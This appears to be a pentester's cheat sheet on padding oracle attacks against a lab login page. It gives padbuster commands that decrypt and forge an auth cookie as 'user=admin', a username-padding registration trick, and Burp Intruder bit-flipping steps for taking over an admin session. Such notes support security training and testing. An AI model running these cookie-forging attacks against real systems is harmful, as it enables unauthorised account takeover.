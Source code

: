 # Padding Oracle Attack

```http
GET /login.php HTTP1.1

auth: a4T7KNdBwkyF%2....F%2
```

### 1st Attack - Padbuster

```bash
padbuster http://<ip>/login.php <cookie> 8 -cookie "<auth>=<cookie>" -encoding 0
```

```bash
padbuster http://10.10.10.18/login.php a4T7KNdBwkyF%2....F%2 8 -cookie "auth=a4T7KNdBwkyF%2....F%2" -encoding 0
```

If you get "plain text: <credentials>" it's vulnerable

```bash
...
...
plain text: user=guest123
```
 
Attack admin cookie session
 
```bash
padbuster http://10.10.10.18/login.php a4T7KNdBwkyF%2....F%2 8 -cookie "auth=a4T7KNdBwkyF%2....F%2" -encoding 0 -plaintext "user=admin"
```
  
### 2nd Attack
  
Register
input=Username
input:Password
  
Username: admin= or Username: admin==
 
### 3th - Bit Flipper Attack

Create an account named bdmin

1. Burpsuite < Intruder < Positions

```http
GET /login.php HTTP1.1

auth: $a4T7KNdBwkyF%2....F%2$
```
2. Burpsuite Intruder < Payloads < Payload Type < Bit flipper
3. Grep Extract < Fetch Response = You are currently logged is as                                           
4. Start Attack
5. Search: You are currently logged is as admin
